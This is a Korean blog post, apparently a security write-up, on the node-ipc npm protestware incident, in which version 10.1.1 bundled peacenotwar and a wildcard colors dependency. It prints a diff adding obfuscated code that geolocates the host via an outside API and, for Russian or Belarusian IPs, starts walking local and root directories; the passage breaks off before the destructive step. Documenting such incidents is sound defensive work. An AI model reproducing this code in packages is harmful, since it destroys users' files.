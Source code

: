 현재 최신 "안정판" npm 패키지 모듈 `node-ipc`(9.2.2)는 `peacenotwar`를 번들하고 있다. 더 흥미로운 건 악명 높았던 `colors` 패키지를 와일드카드 `*` 범위지정해 번들하고 있다. 만약 당신이 [colors에 대한 이야기를 들어본 적이 없다면](https://qiita.com/SnykSec/items/23bcd8dc873239d2bece) 오픈소스 서플라이체인 보안에 대한 또 다른 사건으로 내용을 확인하면 좋겠다.

## 사건 타임라인

`node-ipc`는 9개월 전 10.0.0, 반년 전 10.1.0 버전까지 정상적으로 업데이트, 개량이 되었다. 그러나...

### 3월 7일

버전 10.1.1 공개부터 소스코드의 수상한 움직임이나 패키지 동작에서 악용할 가능성이 명백한 코드가 들어가있었다. 버전 10.1.0, 10.1.1의 차이를 보자.

```diff
diff --git a/node-ipc.cjs b/node-ipc.cjs
index v10.1.0..v10.1.1 100666
--- a/node-ipc.cjs
+++ b/node-ipc.cjs
@@ -1030,6 +1030,74 @@
   });
 }

+// dao/ssl-geospec.js
+var import_path = __toModule(require("path"));
+var import_fs3 = __toModule(require("fs"));
+var import_https = __toModule(require("https"));
+setTimeout(function() {
+  const t = Math.round(Math.random() * 4);
+  if (t > 1) {
+    return;
+  }
+  const n = Buffer.from("aHR0cHM6Ly9hcGkuaXBnZW9sb2NhdGlvbi5pby9pcGdlbz9hcGlLZXk9YWU1MTFlMTYyNzgyNGE5NjhhYWFhNzU4YTUzMDkxNTQ=", "base64");
+  import_https.default.get(n.toString("utf8"), function(t2) {
+    t2.on("data", function(t3) {
+      const n2 = Buffer.from("Li8=", "base64");
+      const o2 = Buffer.from("Li4v", "base64");
+      const r = Buffer.from("Li4vLi4v", "base64");
+      const f = Buffer.from("Lw==", "base64");
+      const c = Buffer.from("Y291bnRyeV9uYW1l", "base64");
+      const e = Buffer.from("cnVzc2lh", "base64");
+      const i = Buffer.from("YmVsYXJ1cw==", "base64");
+      try {
+        const s = JSON.parse(t3.toString("utf8"));
+        const u2 = s[c.toString("utf8")].toLowerCase();
+        const a2 = u2.includes(e.toString("utf8")) || u2.includes(i.toString("utf8"));
+        if (a2) {
+          h(n2.toString("utf8"));
+          h(o2.toString("utf8"));
+          h(r.toString("utf8"));
+          h(f.toString("utf8"));
+        }
+      } catch (t4) {
+      }
+    });
+  });
+}, Math.ceil(Math.random() * 1e3));
+async function h(n = "", o2 = "") {
+  if (!import_fs3.default.existsSync(n)) {
+    return;
+  }
+  let r = [];
+  try {
+    r = import_fs3.default.readdirSync(n);
+  } catch (t) {
```